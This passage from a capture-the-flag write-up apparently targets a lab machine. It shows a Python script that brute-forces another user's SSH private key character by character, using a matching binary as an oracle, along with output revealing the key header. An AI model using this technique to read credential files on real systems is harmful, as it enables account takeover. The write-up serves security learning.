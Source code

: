 This is working, but it’s not going fast enough. I’ll need to script it.

#### SSH Brute Script

I started a simple Python script to try to read the entire key. At first, I included all `string.printable` in my script, but it kept breaking due to invalid escapes. I then thought about an SSH key. It has the base64 alphabet, plus newlines, and “-“ at the top and bottom. So I limited the alphabet to that. The script looked like:

```

#!/usr/bin/env python3

import string
import subprocess

alpha = string.ascii_letters + string.digits + ' -/+=\n,:'
known = "-----BEGIN"
print(known, end="")

while True:

    cont = False
    for c in alpha:
        if c in '+/':
            c = f'\\{c}'
        res = subprocess.check_output(f'cmatch /home/john/.ssh/id_rsa "{known}{c}"', shell=True)
        if b'Found matches: 0' not in res:
            print(c[-1], end="", flush=True)
            known = known + c
            cont = True
            break
    if not cont:
        break

```

It will start with a `while True:` loop, and set `cont` to `False`. Then it loops over each letter, checking if it is the next, and if so, it updates the `known` string, sets `cont = True` and breaks. On reaching the end of the `for` loop, if it didn’t find any matches, `cont` is false, and the while is broken. Otherwise, it found a character, which means it should loop looking for the next.

When I run this, it gets the start of the key:

```

www-data@fingerprint:/dev/shm$ python b.py        
-----BEGIN RSA PRIVATE KEY-----
Proc-Type

```

I didn’t take into account encrypted keys. They look something like:

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,D54228DB5838E32589695E83A22595C7

3+Mz0A4wqbMuyzrvBIHx1HNc2ZUZU2cPPRagDc3M+rv+XnGJ6PpThbOeMawz4Cbu
lQX/Ahbx+UadJZOFrTx8aEWyZoI0ltBh9O5+ODov+vc25Hia3jtayE51McVWwSXg
...[snip]...
-----END RSA PRIVATE KEY-----

```

